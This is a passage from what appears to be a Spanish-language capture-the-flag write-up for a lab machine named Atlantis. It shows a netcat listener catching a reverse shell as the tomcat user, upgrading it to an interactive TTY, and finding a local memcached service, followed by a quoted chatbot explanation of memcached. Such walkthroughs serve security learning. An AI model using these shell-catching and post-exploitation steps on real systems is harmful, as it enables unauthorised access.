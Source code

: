 ![](img/aqua3.png)

```BASH
❯ nc -lvnp 443                      
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.26] 50074
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Ahora si podemos mejorarnos la shell a una shell inteligente

```BASH
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@Atlantis:/$ ^Z
zsh: suspended  nc -lvnp 443
                                                
❯ stty raw -echo;fg
[1]  + continued  nc -lvnp 443

tomcat@Atlantis:/$ export TERM=xterm SHELL=bash
```

Jugando un poco y viendo archivos dentro de la maquina encontramos un memchad

```
tomcat@Atlantis:~$ ps aux | grep -u root

tomcat@Atlantis:~$ ps aux | grep "memcached"
memcache   835  0.0  0.2 425800  3956 ?        Ssl  16:21   0:05 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1
tomcat    1090  0.0  0.0  13220  1076 pts/0    S+   18:33   0:00 grep memcached
```

Le pregunte a bing chat que es memcached
```
Hola, este es Bing. Memcached es un programa que ayuda a las páginas web a funcionar más rápido y mejor. 
Imagina que tienes una caja grande donde guardas tus juguetes favoritos. 
Cada vez que quieres jugar con uno de ellos, tienes que buscarlo en la caja y sacarlo. 
Eso puede tomar mucho tiempo y ser aburrido. 
Pero si tienes una cesta pequeña donde pones los juguetes que más usas, puedes encontrarlos más rápido y fácilmente. 
Memcached hace algo parecido: guarda la información más importante de las páginas web en un lugar especial llamado memoria RAM1,
donde se puede acceder a ella rápidamente sin tener que buscarla en otro lugar2. 
Así las páginas web pueden mostrarte lo que quieres ver sin hacerte esperar mucho3. ¿Entiendes lo que es Memcached? 😊
```
